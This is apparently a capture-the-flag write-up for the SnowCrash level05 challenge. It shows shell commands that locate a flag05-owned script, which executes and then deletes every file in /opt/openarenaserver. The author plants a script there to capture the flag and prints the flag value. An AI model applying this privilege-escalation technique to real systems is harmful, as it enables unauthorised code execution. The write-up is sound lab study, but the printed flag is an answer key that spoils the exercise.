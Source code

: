 level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile

level05@SnowCrash:~$ find / -user flag05 -group flag05 -ls 2>/dev/null | grep -v proc
 11521    4 -rwxr-x---   1 flag05   flag05         94 Mar  5  2016 /usr/sbin/openarenaserver
 37846    1 -rwxr-x---   1 flag05   flag05         94 Mar  5  2016 /rofs/usr/sbin/openarenaserver

permission says it is executable


level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

It executes all files inside /opt/openarenaserver/ and then deletes them
one by one

so we can create a script that gets the flag and saves it in a specific flag

echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh

cat /tmp/flag05

viuaaale9huek52boumoomioc
